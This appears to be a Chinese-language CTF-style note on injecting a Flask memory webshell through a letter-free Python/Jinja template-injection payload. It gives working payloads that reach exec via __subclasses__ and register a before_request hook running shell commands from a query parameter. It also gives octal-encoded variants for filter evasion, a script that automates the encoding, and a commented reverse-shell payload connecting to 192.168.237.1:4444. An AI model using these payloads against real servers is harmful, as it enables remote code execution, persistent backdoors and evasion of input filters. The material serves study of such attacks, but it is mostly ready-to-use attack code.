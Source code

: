 ### 无字母打入内存马

使用`os.wrap`的内置函数`exec`打入内存马

原payload

```python
''['__class__']['__base__']['__subclasses__']()[137]['__init__']['__globals__']['__builtins__']['exec']("sys.modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda: __import__('os').popen(__import__('flask').request.args.get('a')).read())")
```

八进制

```python
''['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\137\137']['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[137]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\137\137\142\165\151\154\164\151\156\163\137\137']['\145\170\145\143']("\163\171\163.\155\157\144\165\154\145\163['\137\137\155\141\151\156\137\137'].\137\137\144\151\143\164\137\137['\141\160\160'].\142\145\146\157\162\145\137\162\145\161\165\145\163\164\137\146\165\156\143\163.\163\145\164\144\145\146\141\165\154\164(\116\157\156\145, []).\141\160\160\145\156\144(\154\141\155\142\144\141: \137\137\151\155\160\157\162\164\137\137('\157\163').\160\157\160\145\156(\137\137\151\155\160\157\162\164\137\137('\146\154\141\163\153').\162\145\161\165\145\163\164.\141\162\147\163.\147\145\164('\141')).\162\145\141\144())")
```

一个不够完善的脚本，仅供参考

```python
# 使用python环境执行命令反弹shell  
# payload = """''['__class__']['__base__']['__subclasses__']()[137]['__init__']['__globals__']['popen']('python3 -c \\'import os,pty,socket;s=socket.socket();s.connect(("192.168.237.1",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")\\'')['read']()""" 
# 内置函数exec打入内存马
payload = """''['__class__']['__base__']['__subclasses__']()[137]['__init__']['__globals__']['__builtins__']['exec']("sys.modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda: __import__('os').popen(__import__('flask').request.args.get('a')).read())")"""

payload8 = ''

def convert_char(char):
    """
    只将字母和下划线转换为八进制，数字和符号保持不变。
    如果字符是反斜杠（\\），则保留原样。
    """
    if char == '\\':  # 如果字符是反斜杠，直接返回原样
        return char
    elif char.isalpha() or char == '_':  # 只对字母和下划线转换为八进制
        return '\\' + format(ord(char), '03o')
    else:  # 数字和符号保持不变
        return char

for char in payload:
    payload8 += convert_char(char)

print(f"原始payload：  {payload}")
print(f"构造的payload8：   {payload8}")


# ''['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\137\137']['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[137]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\160\157\160\145\156']('\160\171\164\150\157\156\063 -\143 '\151\155\160\157\162\164 \157\163,\160\164\171,\163\157\143\153\145\164;\163=\163\157\143\153\145\164.\163\157\143\153\145\164();\163.\143\157\156\156\145\143\164(("192.168.237.1",4444));[\157\163.\144\165\160\062(\163.\146\151\154\145\156\157(),\146)\146\157\162 \146 \151\156(\060,\061,\062)];\160\164\171.\163\160\141\167\156("\163\150")'')['\162\145\141\144']()
# 命令执行版本
```